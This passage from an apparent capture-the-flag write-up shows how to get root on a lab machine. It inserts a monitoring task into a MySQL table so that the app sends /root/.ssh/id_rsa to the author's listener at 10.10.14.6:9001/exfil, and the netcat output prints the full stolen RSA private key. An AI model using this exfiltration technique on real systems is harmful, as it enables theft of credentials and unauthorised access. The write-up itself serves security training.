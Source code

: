 That’s the root flag.

#### Shell

To go for a shell, I’ll start by trying to read `/root/.ssh/id_rsa`:

```

mysql> insert into tasks (id, webhookUrl, onlyError, monitoredUrl, frequency) values ('223', 'http://10.10.14.6:9001/exfil', 0, '/root/.ssh/id_rsa', '* * * * *');
Query OK, 1 row affected (0.00 sec)

mysql> select * from tasks;                                                                                                                
+-----+------------------------------+-----------+-------------------+-----------+------------+------------+
| id  | webhookUrl                   | onlyError | monitoredUrl      | frequency | created_at | updated_at |
+-----+------------------------------+-----------+-------------------+-----------+------------+------------+
| 223 | http://10.10.14.6:9001/exfil |         0 | /root/.ssh/id_rsa | * * * * * | NULL       | NULL       |
+-----+------------------------------+-----------+-------------------+-----------+------------+------------+
1 row in set (0.00 sec)

```

When the minute turns, I get the key:

```

oxdf@hacky$ nc -lnvp 9001
Listening on 0.0.0.0 9001
Connection received on 10.10.11.176 42814
POST /exfil HTTP/1.1
Host: 10.10.14.6:9001
Accept: */*
Content-type: application/json
Content-Length: 1829
Expect: 100-continue

{"webhookUrl":"http:\/\/10.10.14.6:9001\/exfil","monitoredUrl":"\/root\/.ssh\/id_rsa","health":"up","body":"-----BEGIN RSA PRIVATE KEY-----\nMIIEowIBAAKCAQEAwddD+eMlmkBmuU77LB0LfuVNJMam9\/jG5NPqc2TfW4Nlj9gE\nKScDJTrF0vXYnIy4yUwM4\/2M31zkuVI007ukvWVRFhRYjwoEPJQUjY2s6B0ykCzq\nIMFxjreovi1DatoMASTI9Dlm85mdL+rBIjJwfp+Via7ZgoxGaFr0pr8xnNePuHH\/\nKuigjMqEn0k6C3EoiBGmEerr1BNKDBHNvdL\/XP1hN4B7egzjcV8Rphj6XRE3bhgH\n7so4Xp3Nbro7H7IwIkTvhgy61bSUIWrTdqKP3KPKxua+TqUqyWGNksmK7bYvzhh8\nW6KAhfnHTO+ppIVqzmam4qbsfisDjJgs6ZwHiQIDAQABAoIBAEQ8IOOwQCZikUae\nNPC8cLWExnkxrMkRvAIFTzy7v5yZToEqS5yo7QSIAedXP58sMkg6Czeeo55lNua9\nt3bpUP6S0c5x7xK7Ne6VOf7yZnF3BbuW8\/v\/3Jeesznu+RJ+G0ezyUGfi0wpQRoD\nC2WcV9lbF+rVsB+yfX5ytjiUiURqR8G8wRYI\/GpGyaCnyHmb6gLQg6Kj+xnxw6Dl\nhnqFXpOWB771WnW9yH7\/IU9Z41t5tMXtYwj0pscZ5+XzzhgXw1y1x\/LUyan++D+8\nefiWCNS3yeM1ehMgGW9SFE+VMVDPM6CIJXNx1YPoQBRYYT0lwqOD1UkiFwDbOVB2\n1bLlZQECgYEA9iT13rdKQ\/zMO6wuqWWB2GiQ47EqpvG8Ejm0qhcJivJbZCxV2kAj\nnVhtw6NRFZ1Gfu21kPTCUTK34iX\/p\/doSsAzWRJFqqwrf36LS56OaSoeYgSFhjn3\nsqW7LTBXGuy0vvyeiKVJsNVNhNOcTKM5LY5NJ2+mOaryB2Y3aUaSKdECgYEAyZou\nfEG0e7rm3z++bZE5YFaaaOdhSNXbwuZkP4DtQzm78Jq5ErBD+a1af2hpuCt7+d1q\n0ipOCXDSsEYL9Q2i1KqPxYopmJNvWxeaHPiuPvJA5Ea5wZV8WWhuspH3657nx8ZQ\nzkbVWX3JRDh4vdFOBGB\/ImdyamXURQ72Xhr7ODkCgYAOYn6T83Y9nup4mkln0OzT\nrti41cO+WeY50nGCdzIxkpRQuF6UEKeELITNqB+2+agDBvVTcVph0Gr6pmnYcRcB\nN1ZI4E59+O3Z15VgZ\/W+o51+8PC0tXKKWDEmJOsSQb8WYkEJj09NLEoJdyxtNiTD\nSsurgFTgjeLzF8ApQNyN4QKBgGBO854QlXP2WYyVGxekpNBNDv7GakctQwrcnU9o\n++99iTbr8zXmVtLT6cOr0bVVsKgxCnLUGuuPplbnX5b1qLAHux8XXb+xzySpJcpp\nUnRnrnBfCSZdj0X3CcrsyI8bHoblSn0AgbN6z8dzYtrrPmYA4ztAR\/xkIP\/Mog1a\nvmChAoGBAKcW+e5kDO1OekLdfvqYM5sHcA2le5KKsDzzsmboGEA4ULKjwnOXqJEU\n6dDHn+VY+LXGCv24IgDN6S78PlcB5acrg6m7OwDyPvXqGrNjvTDEY94BeC\/cQbPm\nQeA60hw935eFZvx1Fn+mTaFvYZFMRMpmERTWOBZ53GTHjSZQoS3G\n-----END RSA PRIVATE KEY-----\n"}

```
